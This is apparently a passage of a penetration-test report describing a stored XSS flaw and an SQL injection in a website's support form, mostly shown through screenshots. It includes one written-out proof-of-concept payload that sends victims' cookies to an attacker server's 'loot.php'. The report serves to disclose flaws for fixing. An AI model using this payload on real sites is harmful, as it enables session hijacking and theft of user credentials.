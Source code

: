 ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6e9630b7-e272-4e88-a4ac-c84a04706f70/Untitled.png)

#### XSS Vulnerability

Cross-site scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious code, usually in the form of a script, into a vulnerable website that is then executed in a victim's web browser. This can lead to the theft of sensitive information, such as user credentials or payment information, or the hijacking of the user's session. The screenshots are attached below.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6bebaa2f-68d4-4291-8e4d-1e5084338382/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4c224f43-eb5e-4ec3-bb82-f2c5b4d3c3c8/Untitled.png)

#### Exfiltrating Cookies

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/795a3360-cba3-48f3-a579-f0b5675623b3/Untitled.png)

Additionally, the attacker can use the stolen cookies to impersonate the user and perform actions on their behalf. The following is an example proof-of-concept (PoC) showing how cookies can be exfiltrated to a Kali server using a simple XSS payload.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/613f77ba-d10e-477b-ad93-f0174da6b08e/Untitled.png)

```jsx
<script>var i=new Image();i.src="<http://172.16.5.70:8001/loot.php?q=>"+document.cookie;</script>
```

This payload creates a new image object and sets its source to a remote server, along with the user's cookie data. The remote server can now log the cookie data and use it for malicious purposes. It is important to note that XSS vulnerabilities can have serious consequences and should be addressed promptly to prevent attacks.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/95fd9474-600f-4abe-aa9a-b4859eb24e92/Untitled.png)

#### SQL Injection attack in Support Form

During our security testing, we discovered that the support form on the website is vulnerable to SQL injection. This means that an attacker can exploit this vulnerability to gain unauthorized access to the database or execute malicious code. We conducted a series of tests on various parameters, and our findings revealed that the `category` parameter is particularly vulnerable.

To demonstrate the severity of this vulnerability, we have included screenshots below that show the successful exploitation of the SQL injection vulnerability through the `category` parameter. It is important to address this vulnerability as soon as possible to prevent any potential damage that could be caused by a malicious attacker.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/223c21fd-d0b4-4a0d-ae89-dad2c583d468/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/10be1dec-8262-42d6-942d-00b3455c93c7/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e853fe6f-bbf9-480d-9849-198075748826/Untitled.png)

